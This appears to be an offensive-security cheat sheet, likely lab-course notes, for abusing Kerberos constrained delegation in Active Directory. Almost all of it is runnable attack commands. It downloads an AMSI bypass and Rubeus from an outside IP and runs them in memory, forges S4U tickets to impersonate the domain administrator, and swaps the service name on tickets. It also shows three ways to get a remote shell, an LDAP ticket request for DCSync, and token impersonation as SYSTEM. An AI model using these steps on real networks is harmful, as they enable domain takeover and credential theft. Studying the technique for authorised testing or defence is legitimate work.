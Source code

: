 - Enumerate w/ PowerView:
    - `Get-DomainUser -TrustedToAuth`
        - note samaccountname, msds-allowedtodelegateto, useraccountcontrol
        - ex. If IISSVC acct can delegate to MSSQLSvc
            - frontend svc: if we compromise the IISSvc account, we can request a service ticket to IIS for any user in the domain, including a domain administrator
            - backend svc: we can then request a service ticket for the services listed in the msds-allowedtodelegateto field as any user in the domain. Depending on the type of service, this may lead to code execution.
    - `Get-DomainUser -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto,useraccountcontrol`
    - `Get-DomainComputer -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto`

- Exploitation:
    - *Run Rubeus from memory:
        - `powershell`
        - `(new-object system.net.webclient).downloadstring('http://192.168.45.210/amsi.txt') | IEX`
        - `$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.210/Rubeus.exe')`
        - `$assem = [System.Reflection.Assembly]::Load($data)`
        - ex. `[Rubeus.Program]::Main("s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt".Split())`
        - `klist`
    - 0a. Executing in context of frontend service:
        - ##Get TGT:  `.\Rubeus.exe tgtdeleg`
    - 0b. Executing out of service context:
        - Generate hash (if we only have plaintext pw):  
            - `.\Rubeus.exe hash /password:lab`
        - Request TGT (for the account that is TrustedToAuth):
            - `.\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E`
    - 1. Exploit (pick user to impersonate and get authenticated to the delegated service):
        - ex. `.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt`
        - ex. `Rubeus.exe s4u /ticket:doIFCDCCB......= /impersonateuser:administrator /domain:offense.local /msdsspn:cifs/dc01.offense.local /dc:dc01.offense.local /ptt`
        - Confirm logged in as tgt user (using ticket in memory):   `klist; .\SQL.exe`
    - 2. Follow-on Exploit:
        - modifying the ticket to get access to a different service on the same host
        - Doesn't work if original service includes port - ex. mssqlsvc/cdc01.prod.corp1.com:1433
            - would work if like:  www/cdc01.prod.corp1.com
        - ex. `.\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /altservice:CIFS /ptt`     
        - Shell Option 1 - switch for /altservice:http and get winrm shell:
            `Enter-PSSession -ComputerName cdc01.prod.corp1.com`
        - Shell Option 2 - switch for /altservice:host and get psexec shell:
            `.\PsExec64.exe \\cdc01.prod.corp1.com cmd.exe`
        - Shell Option 3 - switch for /altservice:cifs and use SharpSCExec.exe
        - Requesting LDAP Access for DCSync:
            `.\Rubeus.exe s4u /user:sa_with_delegation /impersonateuser:Administrator /msdsspn:time/dc /altservice:ldap /ptt /rc4:2892D26CDF84D7A70E2EB3B9F05C425E`
     
- Exploitation if you're SYSTEM on a box that is TrustedToAuth:
    - `[Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null`
    - `$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')`
    - `$idToImpersonate.Impersonate()`
    - `[System.Security.Principal.WindowsIdentity]::GetCurrent() | select name`

